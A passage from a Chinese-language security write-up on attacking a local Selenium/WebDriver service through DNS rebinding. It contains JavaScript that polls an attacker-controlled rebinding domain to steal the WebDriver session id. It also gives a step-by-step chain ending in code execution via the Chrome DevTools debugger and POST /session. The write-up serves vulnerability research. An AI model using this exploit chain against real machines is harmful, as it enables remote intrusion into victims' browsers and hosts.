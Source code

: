 [![](https://p5.ssl.qhimg.com/t01e5039c01b3cd63e3.png)](https://p5.ssl.qhimg.com/t01e5039c01b3cd63e3.png)

那么问题来了，如果我们可以通过绑定域名来发送GET请求，那么是不是可以通过DNS Rebinding来读取页面内容呢？

### <a class="reference-link" name="%E9%85%8D%E5%90%88DNS%20Rebinding%E6%9D%A5%E8%AF%BB%E5%8F%96GET%E8%BF%94%E5%9B%9E"></a>配合DNS Rebinding来读取GET返回

我们这里通过模拟一次DNS重绑定来探测，这里用一段简单的代码来做check

```
var i = 0;
var sessionid;

function waitdata()`{`

    fetch("http://r.d73ha3.ceye.io:22827/sessions", `{`
        method: "GET",
        mode: "no-cors"
    `}`).then(res =&gt; res.json()).then(res =&gt; function () `{`
        if(res.value)`{`
            sessionid = res.value[0].id;
        `}`
    `}`());

    stopwait();
`}`

function stopwait()`{`

    if(sessionid!=undefined)`{`
        console.log(sessionid);
        clearInterval(t1);

    `}`
`}`

t1 = setInterval('i +=1;console.log("wait dns rebinding...test "+i);waitdata()',1000);
```

[![](https://p1.ssl.qhimg.com/t01710c3317c4eec9bb.png)](https://p1.ssl.qhimg.com/t01710c3317c4eec9bb.png)

可以看到经过63次请求，dns cache失效并成功获取到了127.0.0.1对应的seesionid。

### <a class="reference-link" name="attack%20chain%EF%BC%81"></a>attack chain！

总结前后的几个利用点，我们现在可以尝试把他们串联起来。
- 受害者使用webdriver访问exp.com/a.html，a.html扫描127.0.0.1对应webdriver端口。
- 跳转到`exp.com:&lt;webdriver port&gt;`，开始执行JS+DNS Rebinding。
- 通过构造JS+DNS Rebinding，我们可以读取webdriver端口GET请求的返回，并通过`GET /sessions`获取对应Session的debug端口以及session id。
- 通过Session id，我们可以使用`GET /session/`{`sessionid`}`/source`获取对应窗口的页面内容。
- 通过Session对应的debug端口，我们可以使浏览器访问`http://127.0.0.1:&lt;CDP Port&gt;/json/list`，并且通过`GET /session/`{`sessionid`}`/source`获取返回对应浏览器窗口的webSocketDebuggerUrl。
- 通过webSocketDebuggerUrl与浏览器窗口会话交互，使用`Runtime.evaluate`方法执行JS代码。
- 构造JS代码`POST /session`执行命令。
这里借用原文当中的一张图片来展示整个exp利用过程。
